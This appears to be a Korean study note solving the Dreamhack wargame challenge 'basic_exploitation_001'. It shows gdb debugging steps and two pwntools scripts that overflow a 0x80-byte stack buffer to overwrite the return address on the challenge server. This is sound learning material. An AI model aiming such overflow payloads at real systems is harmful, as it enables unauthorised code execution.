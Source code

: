 # basic_exploitation_001

`docker-compose up -d` 도커 실행

`docker ps` 로 도커 확인

`docker exec -it pwnable-docker_ubuntu22.04_1 /bin/zsh` 도커 열기

`gdb -q basic_exploitation_001` 

`start`

`b *main +n` → 브레이크 포인트 설정, n에 번호를 적으면 된다

`info b` → 브레이크 포인트 확인

`c` 브레이크 포인트 이전부터 실행  

`disassemble main` → main 함수를 disassemble 해준다

`x/32wx $edp -0x80`

`ni`→ 한 칸씩 넘겨준다

`p/d 0x80` 버퍼크기 알려줌

```python
from pwn import *

HOST = 'host3.dreamhack.games' #접속 정보
PORT = 12078 # 포트번호

r = remote(HOST,PORT) # remote 함수를 이용해서 연결을 하고, r변수에 담았음
ret = 0x80485b9 # return address 값 넣어주기

context.arch = 'i386' #32비트 기본 아키텍처
context.endian = 'little' #little endian 사용
context.os = 'linux'#os - linux

payload = ''
payload += 'A' * 0x80 #buffer size
payload += 'B' * 4 #sfp size
payload += p32(ret) #return addr

r.send(payload) # send payload
r.interactive() # exe(실행)
```

python exploit1.py로 실행

```python
from pwn import *

HOST = 'host3.dreamhack.games'
PORT = 12078

r = remote(HOST,PORT)
ret = 0x80485b9

context.arch = 'i386'
context.log_level = 'debug'
context.endian = 'little'
context.os = 'linux'

payload = ''
payload += 'A' * 0x80 #buffer size
payload += 'B' * 4 #sfp
payload += p32(ret) #return addr

r.send(payload) # send payload
r.interactive() # exe
```

![Untitled](../IMAGE/debug.png)

→ 디버깅 된 화면